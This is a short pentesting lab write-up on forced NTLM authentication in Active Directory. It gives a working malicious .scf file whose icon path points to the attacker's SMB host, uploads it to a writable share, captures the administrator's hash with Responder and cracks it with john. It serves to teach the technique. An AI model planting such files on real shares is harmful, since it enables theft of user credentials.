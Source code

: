 ```yaml
---
title: Force Authentication
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# Force Authentication

Allows attacker to gather credential material by forcing a user to automatically provide authentication information through a mechanism in which they can intercept.

# Exploitation

In this lab, we will use this credential `saifullah:sPassword@123` to enumerate our target machine.

Let's start by enumerating shares.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay1.png)

Here we have `Read, Write` permission on `devops` share. Which means we can upload a file to the share.

We will create a malicious file that will force the target machine to try to authenticate with our machine, which will allow us to obtain ntlm hash of the user.

```batch

[Shell]
Command=2
IconFile=\\10.42.0.1\\share\noexist.txt
[Taskbar]
Command=ToggleDesktop

```
Now we will save it in .scf file and then upload it to the `devops` share.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay2.png)

We will run `responder` and wait for someone to access the `devops` share.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay3.png)

We can retrieve the ntlm hash of anyone who accesses the devops share. 

Let's login to the victim machine and access the share.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay4.png)

Let's go back to our machine and check it.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay6.png)

As you can see we have got ntlm hash of the administrator. We will save it and crack it using `john`.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay7.png)

We were able to recover the ntlm hash.

# References

- [https://attack.mitre.org/techniques/T1187/](https://attack.mitre.org/techniques/T1187/)

